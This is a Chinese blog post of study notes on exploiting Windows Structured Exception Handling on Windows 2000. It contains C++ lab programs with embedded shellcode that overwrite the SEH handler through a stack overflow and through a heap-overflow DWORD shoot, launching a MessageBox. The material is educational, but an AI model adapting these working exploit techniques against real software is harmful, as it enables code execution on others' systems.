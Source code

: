 ```yaml
---
title: 漏洞学习笔记-008-Windows异常的利用
description: SEH的栈利用和堆利用
date: 2020-10-25 11:32:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


声明：实验环境为 Windows 2000

本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-008-Windows异常的利用/)

## SEH概述

- SEH是异常处理结构体(Structure Exception Handler)，是Windows异常处理机制采用的重要的数据结构。每个SEH包含两个DWORD指针：SEH链表指针和异常处理函数句柄，共8个字节
- SEH结构存放在栈中
- 线程初始化时，自动向栈中安装一个SEH作为线程默认的异常处理
- 如果程序源代码中使用了`try-except`等异常处理机制，编译器最终通过向当前函数栈帧中安装一个SEH来实现异常处理
- 栈中一般会同时存在多个SEH
- 栈中的多个SEH通过链表指针在栈内由栈顶向栈底串成单项链表，位于链表最顶端的SEH通过TEB0字节偏移处的指针标识
- 异常发生时，操作系统会终端程序，首先从TEB的0偏移处去除距离栈顶最近的SEH使用异常处理函数句柄指向的代码来处理异常
- 当离事故现场最近的异常处理函数运行失败时，将顺着SEH链表依次尝试其它的异常处理函数
- 如果程序安装的所有异常处理函数都不能处理，系统将采用默认的异常处理函数，此函数将弹出错误对话框然后强制关闭程序

## SEH利用思路

- SEH存放在栈内，溢出缓冲区的数据可以淹没SEH
- 将SEH入口改为shellcode起始地址
- 溢出后错误的栈帧或堆块数据会触发异常
- Windows开始处理异常后，将shellcode当作异常处理函数而执行

## SEH的栈利用测试

### NOP测试

#### 代码

```CPP
#include <stdio.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90" // next SEH Record
"\x90\x90\x90\x90" // SE Handler Function Address
"\x90\x90\x90\x90" // Nothing
"\x90\x90\x90\x90" // Nothing
"\x90\x90\x90\x90" // EBP
"\x90\x90\x90\x90" // Return Address
;

DWORD MyExceptionhandler(void)
{
    printf("got an exception, press Enter to kill   process!\n");
    getchar();
    ExitProcess(1);
    return 0;
}

void test(char* input)
{
    char buf[200];
    int zero = 0;
    __asm int 3 // used to break process for debug
    __try
    {
        strcpy(buf, input); // overrun the stack
        zero = 4 / zero; // generate an exception
    }
    __except(MyExceptionhandler()){}
}

void main()
{
    test(shellcode);
}
```

#### 观察

- `0x0012FE98`地址处时shellcode的起始位置
- 当前线程一共安装了3个SEH，离栈顶最近的位于`0x0012FF68`，这是最先调用的SEH
- 我们要覆盖的地址是`0x0012FF6C`，这是处理函数的地址，内容填入ShellCode的起始地址即可

### 实际测试

#### 代码

```CPP
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90" // Next SEH Record
"\x98\xFE\x12\x00"; // SEH Handler

DWORD MyExceptionhandler(void)
{
    printf("got an exception, press Enter to kill process!\n");
    getchar();
    ExitProcess(1);
    return 0;
}

void test(char * input)
{
    char buf[200];
    int zero=0;
    _try
    {
        strcpy(buf,input); //overrun the stack
        zero=4/zero; //generate an exception
    }
    _except(MyExceptionhandler()){}
}

void main()
{
    test(shellcode);
}

```

#### 观察

- 弹出MessageBox对话框成功

## SEH的堆利用测试

### 实际测试

#### 代码

```CPP
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00" // head of the ajacent free block
"\x88\x06\x30\x00" // 0x00300688 is the address of shellcode in first
// Heapblock
"\x30\xFF\x12\x00"; // target of DWORD SHOOT

DWORD MyExceptionhandler(void)
{
    ExitProcess(1);
    return 0;
}

void main()
{
    HLOCAL h1 = 0, h2 = 0;
    HANDLE hp;
    hp = HeapCreate(0, 0x1000, 0x10000);
    h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 200);
    memcpy(h1, shellcode, 0x200); // over flow here, noticed 0x200 means
    //512 !
    __asm int 3 // uesd to break the process
    __try
    {
        h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 8);
    }
    __except(MyExceptionhandler()){}
}
```
